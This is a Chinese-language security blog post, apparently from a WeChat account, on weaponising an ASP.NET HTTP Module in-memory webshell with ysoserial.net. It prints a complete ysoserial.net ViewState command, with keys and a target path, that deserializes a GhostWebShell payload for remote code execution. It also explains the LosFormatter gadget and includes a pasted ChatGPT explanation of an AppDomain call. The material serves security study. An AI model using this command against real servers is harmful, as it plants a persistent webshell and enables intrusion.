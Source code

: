 #  寻找Http Module内存马并ysoserial.net武器化

原创 侠盗鲁平 [ Security丨Art ](javascript:void\(0\);)

**Security丨Art** ![]()

微信号 gh_5fa7bf90b576

功能介绍 网络安全的闲篇扯淡与第Ｎ艺术的外行吐槽

____

___发表于_

收录于合集

## ysoserial.net加载过程

ysoserial.net使用Ghostwebshell命令如下

    
    
    .\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "GhostWebshell.cs;System.dll;System.Web.dll;Microsoft.AspNet.FriendlyUrls.dll" --decryptionalg="AES" --decryptionkey="51FE611365277B07911521B7CAFE3766751D16C33D96242F0E63E93FB102BCE2" --validationalg="HMACSHA256" --validationkey="BF579EF0E9F0C85277E75726BFC9D0260FADE8DE2864A583484AA132944F602D" --path="/login.aspx" --apppath="/" --isdebug  
    

  * 使用ActivitySurrogateSelectorFromFile gadget
  * LosFormatter一般用于序列化存储视图流状态，多用于Web窗体，如ViewState。LosFormatter封装在System.Web.dll中，命名空间为System.Web.UI，使用LosFormatter反序列化不信任的数据会造成RCE
  * 如有反序列化source点，可以用binaryformatter序列化格式
  * ````C:\CoolTools\ysoserial.net\ExploitClass\GhostWebShell.cs;```是文件地址，后面跟的是编译文件所需的dll

nuget拉取项目依赖之后加入命令参数进行调试

![]()

项目入口在Program.cs的main函数中

![]()

紧接着获取当前程序域的所有加载的程序集类型

    
    
    GPT time:  
    `AppDomain.CurrentDomain.GetAssemblies().SelectMany(s => s.GetTypes())` 是一段代码，用于获取当前应用程序域（AppDomain）中加载的所有程序集的类型。  
      
    在 .NET Framework 中，`AppDomain` 是一个应用程序的隔离边界，它包含了应用程序在运行时所需的各种资源，例如程序集、配置信息和安全策略。每个应用程序通常都有一个默认的应用程序域（CurrentDomain），可以通过 `AppDomain.CurrentDomain` 属性来访问。  
      
    `GetAssemblies()` 方法是 `AppDomain` 类的一个成员方法，用于获取当前应用程序域中加载的所有程序集。它返回一个 `Assembly[]` 数组，包含了当前应用程序域中的所有程序集。  
      
    `SelectMany(s => s.GetTypes())` 则是对获取到的程序集进行处理的一部分。`SelectMany()` 是 LINQ 扩展方法，用于将每个程序集中的类型集合合并为一个平面的序列。`s => s.GetTypes()` 是一个 lambda 表达式，表示对每个程序集 `s` 调用 `GetTypes()` 方法来获取该程序集中定义的所有类型。  
      